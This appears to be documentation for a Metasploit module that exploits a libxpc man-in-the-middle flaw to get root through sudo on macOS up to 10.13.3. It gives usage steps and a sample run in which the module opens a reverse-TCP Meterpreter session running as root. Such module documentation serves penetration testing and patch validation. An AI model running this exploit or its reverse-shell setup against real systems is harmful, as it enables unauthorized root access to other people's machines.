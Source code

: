 ## Vulnerable Application
This vulnerability works against OSX <= 10.13.3 (High Sierra). It has
been tested against El Capitan (10.11), Sierra (10.12) and High Sierra,
however it may work on older versions.

The task_set_special_port API allows callers to overwrite their bootstrap port,
which is used to communicate with launchd. This port is inherited across forks:
child processes will use the same bootstrap port as the parent.
By overwriting the bootstrap port and forking a child processes, we can now gain
a MitM position between our child and launchd.

To gain root we target the sudo binary and intercept its communication with
opendirectoryd, which is used by sudo to verify credentials. We modify the
replies from opendirectoryd to make it look like our password was valid.

## Verification Steps
1. Get a session on a vulnerable system
2. `use exploit/osx/local/libxpc_mitm_ssudo`
3. `set lhost <IP>`
4. `set lport <PORT>`
5. `set session <session_id>`
6. `run`

## Scenarios
### Example Run
```
msf5 exploit(multi/handler) > use exploit/osx/local/libxpc_mitm_ssudo
msf5 exploit(osx/local/libxpc_mitm_ssudo) > set LHOST 192.168.0.2
LHOST => 192.168.0.2
msf5 exploit(osx/local/libxpc_mitm_ssudo) > set LPORT 4446
LPORT => 4446
msf5 exploit(osx/local/libxpc_mitm_ssudo) > set SESSION 1
SESSION => 1
msf5 exploit(osx/local/libxpc_mitm_ssudo) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.2:4446
[*] Uploading file: '/tmp/romrvmmf'
[*] Uploading file: '/tmp/kflrjdgv'
[*] Executing cmd '/tmp/romrvmmf /tmp/kflrjdgv'
[*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(4088 bytes)
[*] Sending stage (808168 bytes) to 192.168.0.2
[*] Meterpreter session 2 opened (192.168.0.2:4446 -> 192.168.0.2:50020) at 2018-11-20 16:08:05 +0800

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```
